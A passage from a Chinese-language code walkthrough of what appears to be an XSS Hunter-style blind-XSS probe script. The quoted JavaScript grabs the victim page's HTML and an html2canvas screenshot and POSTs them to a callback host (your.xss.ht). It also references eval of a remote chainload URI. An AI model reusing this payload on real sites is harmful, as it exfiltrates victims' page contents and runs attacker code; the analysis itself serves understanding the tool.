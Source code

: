     }

然后，JS会先判断HTML文档的document对象是否加载完成，通过document的readyState属性值是否为complete来判断，否则的话则通过添加对Window对象的onload的事件监听。确认页面加载完成之后，将会执行hook_load_if_not_ready 的函数。

    if( document.readyState == "complete" ) {
        hook_load_if_not_ready();
    } else {
        //添加Window对象的load监听事件
        addEvent( window, "load", function(){
            hook_load_if_not_ready();//调用hook函数
        });
    }

进入到hook_load_if_not_ready函数中，首先会尝试获取会通过Element元素对象的outerHTML属性获取元素序列化HTML片段。并将其存放在probe_return_data对象中。接下来会使用html2canvas这个第三方JS进行截图，同样的将图片存放在probe_return_data中去。确认截图完成之后，调用finishing_moves。

    function hook_load_if_not_ready() {
        try {
            //获取document下的元素对象
            try {
                probe_return_data['dom'] = never_null( document.documentElement.outerHTML );
            } catch ( e ) {
                probe_return_data['dom'] = '';
            }
            //使用html2canvas进行截图。
            html2canvas(document.body).then(function(canvas) {
                probe_return_data['screenshot'] = canvas.toDataURL();
                //截图完成之后将会，执行finishing_moves函数
                finishing_moves();
            }, function() {
                probe_return_data['screenshot'] = '';
                finishing_moves();
            });
        } catch( e ) {
            probe_return_data['screenshot'] = '';
            finishing_moves();
        }
    }

finishing_moves中将会三个函数：
contact_mothership( probe_return_data )//发送数据
collect_pages();
eval_remote_source( chainload_uri );//加载远程资源

这里讲一下contact_mothership这个函数，函数对象中会实例化XMLHttpRequest对象，然后像probe_return_data对象作为POST数据请求到`https://your.xss.ht/js_callback`中去。

    function contact_mothership( probe_return_data ) {
        var http = new XMLHttpRequest();//实例化XMLHttpRequest对象
        var url = "<https://your.xss.ht/js_callback>";
        http.open("POST", url, true);
        http.setRequestHeader("Content-type", "text/plain");
        http.onreadystatechange = function() {
            if(http.readyState == 4 && http.status == 200) {
    